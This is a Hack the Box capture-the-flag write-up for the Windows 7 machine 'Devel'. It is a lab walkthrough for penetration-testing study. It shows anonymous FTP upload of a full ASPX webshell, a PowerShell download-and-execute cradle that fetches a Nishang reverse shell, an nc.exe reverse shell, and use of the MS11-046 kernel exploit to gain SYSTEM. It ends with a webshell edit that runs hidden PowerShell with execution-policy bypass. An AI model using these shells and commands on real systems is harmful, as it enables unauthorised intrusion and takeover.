Title: Devel - Hack the Box
Date: 2020-02-20
Modified: 2020-02-20
Category: ctf
Tags: ctf, hack the box, oscp prep
Slug: htb-devel
Authors: Riley
Summary: Guide to Devel on Hack the Box. 

## Description

Devel is a neat box that hosts a file server in the same directory that hosts a webserver, which allows anonymous uploads.  After uploading an aspx shell, the Windows 7 host is severely unpatched and likely has several kernel exploits available to use.

I also go over how to utilize Git to revert and explore old codebases, and compile the C# tool Watson.

Devel is assigned IP 10.10.10.5.

## Reconnaissance

We begin by initiating an Nmap scan.

#### Nmap
```bash
# nmap -sC -sV -oA nmap/Devel 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.091s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The only services that appear to be available are HTTP (80) and FTP (21), the latter having anonymous logins enabled.  The FTP server may be rooted to the same directory as the webserver; since we can log in anonymously, we should be able to download the files and verify this.

### Examining FTP access

In order to log in to FTP, we need to use the username **anonymous**, but the password can be anything -- even blank.

#### Anonymous FTP login
```shell
# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: whateva
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

So we can access the FTP server content.  How about the website?



To verify this is the same directory as FTP, we can look at the `iisstart.htm` from FTP and the website source in Firefox for a cross-comparison.

#### Downloading iisstart.htm from FTP server
```shell
ftp> get iisstart.htm
local: iisstart.htm remote: iisstart.htm
200 PORT command successful.
150 Opening ASCII mode data connection.
226 Transfer complete.
689 bytes received in 0.09 secs (7.3856 kB/s)
```

The file will download to localhost at your `pwd`.  Taking a look at the contents:

#### cat iisstart.htm
```htm
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<title>IIS7</title>
<style type="text/css">
<!--
body {
        color:#000000;
        background-color:#B3B3B3;
        margin:0;
}

#container {
        margin-left:auto;
        margin-right:auto;
        text-align:center;
        }

a img {
        border:none;
}

-->
</style>
</head>
<body>
<div id="container">
<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"></a>
</div>
</body>
</html>
```

Back in Firefox, the source appears to be the same.


So it's either the same directory or a source code repository; there isn't a good way to determine without some modifications to the content.  For this, we could try uploading our own files.

FTP provides functionality to both upload and download files.  We can locate a webshell and try uploading from there.

Kali Linux has basic webshells shipped by default in `/usr/share/webshells/`; I don't know what software the server hosts at this time (ASP.NET, PHP, etc.), so it's possible that multiple shells will need to be tested.  We will try the `/usr/share/webshells/aspx/cmdasp.aspx` shell to start.

This is the source code for the shell:

#### cat /usr/share/webshells/aspx/cmdasp.aspx
```cs
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>

<!-- Contributed by Dominic Chell (http://digitalapocalypse.blogspot.com/) -->
<!--    http://michaeldaw.org   04/2007    -->
```

The webshell will:

 1. Take in input using a website form
 2. Run the input through `cmd /c` to execute on the server
 3. Return the output of the command

This sort of shell would be a perfect test.

*Note: A few quick edits can alter this to run PowerShell commands if that is preferable.  I've included instructions at the bottom of this guide.*


## Nobody -> Web: Anonymous FTP upload to webshell execution

To start, let's copy this into our current directory.
```bash
# cp /usr/share/webshells/aspx/cmdasp.aspx ./ttbcmd.aspx
```

We can use the FTP `put` command to upload it:
```shell
ftp> put ttbcmd.aspx
local: ttbcmd.aspx remote: ttbcmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (55.0079 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
02-21-20  07:05AM                 1442 ttbcmd.aspx
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

That looks to have uploaded correctly.  We can try navigating to our webshell with curl or a browser to see if we can get remote execution.



That the website rendered this new page is a good indicator that the server utilises ASP.NET content (and can thus execute C# code) and that the FTP server is set to the same directory as the IIS server.

Attempting to execute a command also provides good feedback.



### Nishang Reverse TCP Shell

[Nishang](https://github.com/samratashok/nishang) provides several useful scripts and functions, including `Invoke-PowerShellTcp.ps1`.  This script creates a reverse shell using a TCP stream. 

Clone the Nishang Github repository and collect the desired shell script:
```bash
# git clone -C /opt https://github.com/samratashok/nishang
Cloning into 'nishang'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 1686 (delta 2), reused 6 (delta 2), pack-reused 1676
Receiving objects: 100% (1686/1686), 8.88 MiB | 10.48 MiB/s, done.
Resolving deltas: 100% (1053/1053), done.
# cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 ./
# python3 -m http.server 80
```

We will need to append a new line to the very bottom of the file to automatically execute the desired command:
```bash
# echo -n "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.22 -Port 443" >> InvokePowerShellTcp.ps1
```

We also need to set up a listener on Kali:
```bash
# rlwrap ncat -nvlp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```

Back on the webshell, we execute one-liner to download and execute the PS script:
```powershell
powershell iex(new-object Net.WebClient).DownloadString('http://10.10.14.22/Invoke-PowerShellTcp.ps1')
```

And we receive a callback from Devel!
```powershell
Ncat: Connection from 10.10.10.5.
Ncat: Connection from 10.10.10.5:49163.
Windows PowerShell running as user DEVEL$ on DEVEL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami; hostname
iis apppool\web
devel
```

Excellent, now we have a good PS shell. 

## Server-side Enumeration

A good place to start with local enumeration on Windows is to determine OS version and other system information.  The built in `systeminfo` command will give us all this and more.

#### systeminfo
```powershell
PS C:\windows\system32\inetsrv> systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ??
System Boot Time:          21/2/2020, 6:00:15 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 708 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.493 MB
Virtual Memory: In Use:    554 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

Based on the `Hotfix(s)` field, this system may not be patched at all!  There are a number of kernel exploits that may apply in this Scenario.  [Watson](https://github.com/rasta-mouse/Watson) is a C# tool created by [@RastaMouse](https://twitter.com/_rastamouse) to identify possible Windows exploits for privilege escalation.

### Compiling Watson

The only issue with using Watson now is that as of v2.0 it only supports Windows 10 versions; this wasn't always the case.  To use it on Windows 7, we will need to utilize an older version of the software.  We can use Gits built-in commit history functionality using the `checkout` function to get the older v0.1 (Win7 compatible) code.

To compile the requisite binary, I installed Visual Studio Community (with all C# functionality) and Git on a Windows 10 machine and cloned the Github  repository.





Then, under **Team Explorer** on the bottom right, there is a list of Local Git Repositories (I have two other projects cloned).  Right click Watson and select **Open Command Prompt**.



The last version of Watson that was compatible with other editions of Windows is commit **486ff207270e4f4cadc94ddebfce1121ae7b5437**.  To get this version, run `git checkout 486ff207270e4f4cadc94ddebfce1121ae7b5437` in the command prompt.



Now we need the target .NET version.  This can be almost any version isntalled on the machine, but we should know what's available before compiling.

Available .NET Framework versions should be listed in `C:\Windows\Microsoft.NET\Framework\`.

#### Back on Devel...
```powershell
PS C:\Users\Public\Documents> gci C:\Windows\Microsoft.NET\Framework\v*


    Directory: C:\Windows\Microsoft.NET\Framework


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----         14/7/2009   5:37 ??            v1.0.3705                         
d----         14/7/2009   5:37 ??            v1.1.4322                         
d----         18/3/2017   1:06 ??            v2.0.50727                        
d----         14/7/2009   7:56 ??            v3.0                              
d----         14/7/2009   7:52 ??            v3.5
```

Version 3.5 is very popular, and Watson should be compatible.  We can set the target build Framework in the project Properties menu under Application.



Once that's done, we set the solution to Release and Build (Ctrl + B).  Now we can copy the compiled binary and host it on Kali.

We can allow Devel access to Watson and any other binaries we create by hosting it on a public SMB share.  Impackets `smbserver` utility is perfect for this.

#### Impacket smbserver
```bash
# /usr/bin/impacket-smbserver -smb2support share .
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

This will allow all content in the current directory to be accessible by SMB at `\\<VPN IP>\share\`.  Now we should be able to execute Watson without touching disk!

#### Watson.exe
```powershell
PS C:\Users\Public\Documents> \\10.10.14.22\share\Watson.exe
  __    __      _
 / / /\ \ \__ _| |_ ___  ___  _ __
 \ \/  \/ / _` | __/ __|/ _ \| '_ \
  \  /\  / (_| | |_\__ \ (_) | | | |
   \/  \/ \__,_|\__|___/\___/|_| |_|

                           v0.1

                  Sherlock sucks...
                   @_RastaMouse

 [*] OS Build number: 7600
 [*] CPU Address Width: 32
 [*] Process IntPtr Size: 4
 [*] Using Windows path: C:\WINDOWS\System32

  [*] Appears vulnerable to MS10-073
   [>] Description: Kernel-mode drivers load unspecified keyboard layers improperly, which result in arbitrary code execution in the kernel.
   [>] Exploit: https://www.exploit-db.com/exploits/36327/
   [>] Notes: None.

  [*] Appears vulnerable to MS10-092
   [>] Description: When processing task files, the Windows Task Scheduler only uses a CRC32 checksum to validate that the file has not been tampered with
.Also, In a default configuration, normal users can read and write the task files that they have created.By modifying the task file and creating a CRC32 c
ollision, an attacker can execute arbitrary commands with SYSTEM privileges.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_092_schelevator.rb
   [>] Notes: None.

  [*] Appears vulnerable to MS11-046
   [>] Description: The Ancillary Function Driver (AFD) in afd.sys does not properly validate user-mode input, which allows local users to elevate privile
ges.
   [>] Exploit: https://www.exploit-db.com/exploits/40564/
   [>] Notes: None.

  [*] Appears vulnerable to MS12-042
   [>] Description: An EoP exists due to the way the Windows User Mode Scheduler handles system requests, which can be exploited to execute arbitrary code
 in kernel mode.
   [>] Exploit: https://www.exploit-db.com/exploits/20861/
   [>] Notes: None.

  [*] Appears vulnerable to MS13-005
   [>] Description: Due to a problem with isolating window broadcast messages in the Windows kernel, an attacker can broadcast commands from a lower Integ
rity Level process to a higher Integrity Level process, thereby effecting a privilege escalation.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_005_hwnd_broadcast.rb
   [>] Notes: None.

 [*] Finished. Found 5 vulns :)
ERROR> The given key was not present in the dictionary.
ERROR> C:\WINDOWS\System32\win32kfull.sys
ERROR> C:\WINDOWS\System32\gdiplus.dll
ERROR> C:\WINDOWS\System32\coremessaging.dll
```

There are several exploits to choose from, but we only need one good exploit.

## Web -> System: MS11-046

[@abatchy](https://twitter.com/abatchy17) hosts a Github repo for [several Windows exploits](https://github.com/abatchy17/WindowsExploits), one of which is for [MS11-046](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2011/ms11-046).  This exploits a vulnerability in the Ancillary Function Driver to execute code as System.

Reviewing the exploit source code, I located a very pleasant feature on line 801:

```c
    // spawn shell (with elevated privileges)
    printf("         [*] Spawning shell\n");
    // spawn SYSTEM shell within the current shell (remote shell friendly)
    system ("c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32");
```

Many local exploits are more or less incompatible with remote shells; they simply don't accomodate them, typically opening a new window or the like.  They would be fine with a Remote Desktop session, but not this.

This exploit, however, states that it's compatible with remote shells; this feature is precisely the functionality that we need for this situation.

We can download the source and/or executable by using wget (preferably into the SMB directory):

```bash
# wget https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe
--2020-02-17 22:34:12--  https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe
Resolving github.com (github.com)... 192.30.255.112
Connecting to github.com (github.com)|192.30.255.112|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/abatchy17/WindowsExploits/master/MS11-046/MS11-046.exe [following]
--2020-02-17 22:34:12--  https://raw.githubusercontent.com/abatchy17/WindowsExploits/master/MS11-046/MS11-046.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.128.133, 151.101.192.133, 151.101.0.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.128.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 112815 (110K) [application/octet-stream]
Saving to: ‘MS11-046.exe’

MS11-046.exe                           100%[==========================================================================>] 110.17K  --.-KB/s    in 0.05s

2020-02-17 22:34:13 (2.31 MB/s) - ‘MS11-046.exe’ saved [112815/112815]
```

Running it on the server:



No elevated shell...  It appears that the exploit worked and executed the elevated code, so what gives?

My theory is that the `Invoke-PowerShellTcp` function isn't compatible with the exploit.  To test, I located `nc.exe`, a netcat Windows binary, and set up a new reverse shell through ncat.

In a new terminal on Kali:
```bash
# rlwrap ncat -nvlp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

In the Windows shell:
```powershell
\\10.10.14.22\share\nc.exe -e cmd.exe 10.10.14.22 4444
```

Back to the new listener:
```powershell
Ncat: Connection from 10.10.10.5.
Ncat: Connection from 10.10.10.5:49191.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

Now we have a 'pure' netcat reverse shell.  Executing the exploit again,



My theory appears to have been correct!  From here, it is trivially easy to locate and read from the flag files.



This concludes the Devel writeup, and any further content is expanding on the above.

Thank you for reading!


## Modifying the aspx webshell for PowerShell execution

To modify the webshell to execute PowerShell as a default, simply replace lines 11 and 12:
```cs
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
```

With:
```cs
psi.FileName = "powershell.exe";
psi.Arguments = "-NoP -NonI -W Hidden -Exec Bypass \""+arg+"\"";
```

PowerShell execution brings with it a massive improvement of usability and functionality; we can do practically anything in the Windows environment.  This isn't strictly necessary, but could be useful.